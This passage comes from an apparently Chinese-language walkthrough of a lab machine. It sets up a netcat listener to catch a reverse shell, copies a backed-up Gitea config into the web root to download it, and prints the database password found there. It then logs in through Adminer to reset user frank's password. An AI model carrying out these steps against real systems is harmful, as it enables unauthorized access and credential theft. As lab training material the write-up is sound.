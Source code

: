 ```text
ncat -l 4444
```

输入完成后，重新访问首页，进行反弹~

![EF0762613693765C8F46A48E54C66B28](https://gitee.com/Harveysn0w/mac-note_img/raw/master/EF0762613693765C8F46A48E54C66B28.jpg)

```text
cd /var/backups
```

进入var，发现备份文件，仔细搜寻一番，发现有一个可疑的备份文件~

![image-20210305143133844](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305143133844.png)

我们把这个文件复制到html里面进行下载查看~

```text
cp app.ini.bak /var/www/html
```

![image-20210305143415285](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305143415285.png)

我们访问域名进行下载

```text
192.168.0.111/app.ini.bak
```

![image-20210305143609006](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305143609006.png)

打开搜寻一番，发现了另外一个数据库用户密码

![image-20210305143803489](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305143803489.png)

```text
DB_TYPE：mysql
HOST：127.0.0.1:3306
NAME：gitea
USER：gitea
PASSWD：UfFPTF8C8jjxVF2m
```

## 五、破解密码

打开：[http://192.168.0.111/adminer.php](http://192.168.0.111/adminer.php) 登录新的数据库

![image-20210305144100406](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305144100406.png)

我们再次看到了user，发现了一个新的加密方式~

![53D1E918F3F54B1B5F3F09935F099675](https://gitee.com/Harveysn0w/mac-note_img/raw/master/53D1E918F3F54B1B5F3F09935F099675.jpg)

修改frank用户密码为123456，需要知道密码加密方式。。

查找源码加密方式：[https://github.com/go-gitea/gitea/blob/master/models/user.go](https://github.com/go-gitea/gitea/blob/master/models/user.go)
